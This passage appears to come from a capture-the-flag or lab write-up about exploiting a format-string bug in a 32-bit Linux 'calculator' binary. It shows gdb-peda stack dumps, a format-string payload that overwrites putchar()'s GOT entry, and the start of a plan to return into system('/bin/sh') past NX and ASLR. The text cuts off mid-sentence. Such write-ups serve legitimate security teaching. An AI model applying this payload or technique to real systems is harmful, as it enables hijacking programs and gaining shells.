 ```text
0012| 0xbf951698 --> 0xa ('\n')
0016| 0xbf95169c --> 0xb763b160 (add    ebx,0x171e94)
0020| 0xbf9516a0 --> 0xb77adac0 --> 0xfbad2088 
0024| 0xbf9516a4 --> 0xb77d9ff4 --> 0x20f1c 
0028| 0xbf9516a8 --> 0xb77da918 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x000a0009 in ?? ()

```

EIP was set to an invalid address 0x000a0009. That meant I'd overwritten putchar()'s GOT entry with the value 0x000a0009. At the time of the crash, the stack looked like this:

```
gdb-peda$ context stack 25
--More--(25/25)
[------------------------------------stack-------------------------------------]
0000| 0xbf95168c --> 0x80486eb (<calculator+208>:   mov    eax,0x1)
0004| 0xbf951690 --> 0xa ('\n')
0008| 0xbf951694 --> 0xbf9516ac --> 0xbf9516b0 --> 0x8049c10 --> 0xa0009 ('\t')
0012| 0xbf951698 --> 0xa ('\n')
0016| 0xbf95169c --> 0xb763b160 (add    ebx,0x171e94)
0020| 0xbf9516a0 --> 0xb77adac0 --> 0xfbad2088 
0024| 0xbf9516a4 --> 0xb77d9ff4 --> 0x20f1c 
0028| 0xbf9516a8 --> 0xb77da918 --> 0x0 
0032| 0xbf9516ac --> 0xbf9516b0 --> 0x8049c10 --> 0xa0009 ('\t')
0036| 0xbf9516b0 --> 0x8049c10 --> 0xa0009 ('\t')
0040| 0xbf9516b4 --> 0x8049c12 --> 0xaf20000a 
0044| 0xbf9516b8 ("%1c%8$hn%1c%9$hnAAAABBBBCCCCDDDDEEEEFFFF\n")
0048| 0xbf9516bc ("8$hn%1c%9$hnAAAABBBBCCCCDDDDEEEEFFFF\n")
0052| 0xbf9516c0 ("%1c%9$hnAAAABBBBCCCCDDDDEEEEFFFF\n")
0056| 0xbf9516c4 ("9$hnAAAABBBBCCCCDDDDEEEEFFFF\n")
0060| 0xbf9516c8 ("AAAABBBBCCCCDDDDEEEEFFFF\n")
0064| 0xbf9516cc ("BBBBCCCCDDDDEEEEFFFF\n")
0068| 0xbf9516d0 ("CCCCDDDDEEEEFFFF\n")
0072| 0xbf9516d4 ("DDDDEEEEFFFF\n")
0076| 0xbf9516d8 ("EEEEFFFF\n")
0080| 0xbf9516dc ("FFFF\n")
0084| 0xbf9516e0 --> 0x3031000a ('\n')
0088| 0xbf9516e4 --> 0x804000a 
0092| 0xbf9516e8 --> 0x4 
0096| 0xbf9516ec --> 0xb77acff4 --> 0x1a5d7c 
[------------------------------------------------------------------------------]
```

My payload "AAABBBBCCCCDDDDEEEEFFFF" was 60 bytes up from ESP. I decided to fake a call to system("/bin/sh") using the payload. I needed a gadget that would clear the stack of the junk and return to system(). NX was enabled on the binary so the stack wasn't executable, but since I wasn't executing shellcode on the stack that wasn't a problem.. ASLR was enabled on the target, but since it was a 32-bit Linux system, I could disable randomization of function addresses using:

